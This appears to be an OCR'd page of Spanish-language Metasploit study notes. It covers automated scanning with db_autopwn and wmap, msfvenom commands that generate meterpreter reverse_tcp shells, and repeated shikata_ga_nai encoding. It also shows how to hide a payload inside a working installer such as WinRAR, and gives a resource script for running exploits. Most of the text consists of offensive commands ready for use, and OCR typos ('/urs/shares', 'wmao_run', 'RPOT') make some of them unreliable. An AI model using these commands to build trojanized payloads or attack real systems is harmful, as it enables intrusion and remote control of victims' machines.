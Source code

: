 search libssh
set SPAWN_PTY true
strings welcome.bin

______________

mysql_Schema
ssh_enumusers

search type:auxiliary name:

Escaneo y Busqueda de vulnerabilidades automatico
db_nmap -sSV -O IP
hosts
services
wget https://  metasploit-autopwn
sudo mv db_autopwn.rb /urs/shares/metasploit-framework/plugins
> load db_autopwn
db_autopwn -p -t -PI 445 IP
analyze
vulns

load_wmap
wmap_sites -a IP
wmap_targets -t http://IP/
wmap_sites -l
wmap_run -t
wmao_run -e

search http_put

Crear Payloads con MSFVenom
msfvenom --list payloads
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=Port -f exe > payload.exe
msfvenom --list formats
msvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT -f elf > payload

msfvenom --list encoders
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=Port -e x86/shikata_ga_nai -f exe > payload.exe -Encodear payload
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=Port -i 10 -e x86/shikata_ga_nai -f exe > payload.exe -Encodear payload -Encodear multiples (10) veces un payload 

msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=Port -i 10 -e x86/shikata_ga_nai -f exe -x /winrar602.exe -Poner payloads en un Ejecutable Portalble
-k -Mantiene la funcionalidad original del ejecutable

Funciones Automaticas de Mestasploit
ls -la /urs/share/metasploit-framework/scripts/resource

	En un archivo .rc se hace una lista de comandos que queramos que se ejecuten uno tras otro
exploss.rc
	msfconsole
	workspace -a primero
	setg RHOSTS IP
	setg LHOST IP
	set RPOT Port
	set PAYLOAD
	use ruta/exploit
	run
msfconsole -r exploss.rc
msf> resource exploss.rc
